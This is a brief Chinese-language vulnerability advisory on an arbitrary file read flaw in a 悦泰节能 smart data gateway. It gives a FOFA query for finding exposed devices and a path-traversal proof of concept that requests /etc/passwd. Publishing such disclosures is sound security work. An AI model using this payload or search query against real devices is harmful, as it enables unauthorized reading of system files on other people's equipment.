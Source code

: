 # 悦泰节能 智能数据网关 resources 任意文件读取漏洞

## 漏洞描述

悦泰节能 智能数据网关存在任意文件读取漏洞，通过构造特殊请求可以读取服务器任意文件

## 漏洞影响

```
悦泰节能 智能数据网关
```

## FOFA

```
body="/FWlib3/resources/css/xtheme-gray.cssz"
```

## 漏洞复现

登录页面

![](./images/202202162249593.png)

验证POC

```php
/FWlib3/resources//../../../../../../../../etc/passwd
```

![img](./images/202202162249623.png)